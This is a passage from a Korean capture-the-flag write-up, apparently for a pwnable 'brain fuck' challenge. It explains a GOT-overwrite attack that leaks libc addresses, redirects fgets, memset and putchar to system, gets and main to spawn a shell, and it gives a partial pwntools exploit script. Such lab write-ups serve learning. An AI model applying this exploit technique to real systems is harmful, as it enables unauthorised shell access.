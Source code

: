 덮어써준 다음엔 main 함수를 호출해줘야 한다.

이것 또한 `do_brainfuck()` 함수 내에서 호출되는 라이브러리 함수를 GOT overwrite 해서 호출할 수 있다.

<br>
![9]({{"/assets/img/security/pwnable/17/9.png" | absolute_url}})

난 여기서 `putchar` 함수를 main 함수의 주소로 덮어썼다.

이렇게되면 모든 `memset`, `fgets`, `putchar` 함수의 GOT를 overwrite 하는 명령어를 작성한 후에

main으로 덮어써진 `putchar`를 호출할 수 있는 `.` 명령어를 통해 main을 다시 호출할 수 있다.

정리하면
<br>
`memset`    -> `gets`

`fgets`     -> `system`

`putchar`   -> `main`

으로 변경해준다.

<br>

![10]({{"/assets/img/security/pwnable/17/10.png" | absolute_url}})

위에서부터 순서대로 하자.

`fgets` 함수의 주소는 `0x0804A010`

`memset` 함수의 주소는 `0x0804A02C`

`putchar` 함수의 주소는 `0x0804A030`

<br>

먼저 `<`를 `fgets` 함수의 주소가 쓰여진 got의 위치까지 이동하고

그 위치에서 `4바이트`를 읽으면 `fgets` 함수의 주소를 구할 수 있다.

이 구한 주소에서 라이브러리 상의 `fgets` 함수의 `offset`을 빼면 라이브러리가 올라간 base 주소를 구할 수 있다.

이렇게 구한 base 주소에 각 overwrite 할 함수 `gets, system 함수`의 `offset`을 더하여 덮어쓸 주소를 구한다.

덮어쓴 이후엔 `gets` 함수에 전달할 `/bin/sh`를 입력하면 쉘을 얻을 수 있다.


### ※ 서버의 응답 메시지를 기다릴 때 개행문자("\n")까지 기다려주지 않으면 이상한 값이 섞여들어가 공격이 되지 않는다...

{% highlight python %}
from pwn import *
 
fgets_addr      = 0x0804A010  # address of fgets's got table
memset_addr  = 0x0804A02C  # address of memset's got table
putchar_addr = 0x0804A030  # address of putchar's got table
tape_addr      = 0x0804A0A0  # address of pointer p
 
fgets_offset  = 0x0005E150 # to get base address of loaded library
gets_offset   = 0x0005F3E0 # offset of gets in library binary
system_offset = 0x0003ADA0 # offset of system in library binary
main_addr      = 0x08048671 # address of main function to overwrite putchar
 
def do_bf(s):
    payload  = "<" * (tape_addr - fgets_addr)             # move to address of fgets
    payload += ".>" * 4                                 # read address of fgets
    payload += "<" * 4                                  # rewind pointer
    payload += ",>" * 4                                 # overwrite address of fgets to system
    payload += ">" * (memset_addr - fgets_addr - 4)     # move to address of memset
    payload += ",>" * 4                                    # overwrite address of memset to gets
    payload += ">" * (putchar_addr - memset_addr -4)    # move to address of putchar
    payload += ",>" * 4                                    # overwrite address of putchar to main
    payload += "."                                        # call putchar (=main)
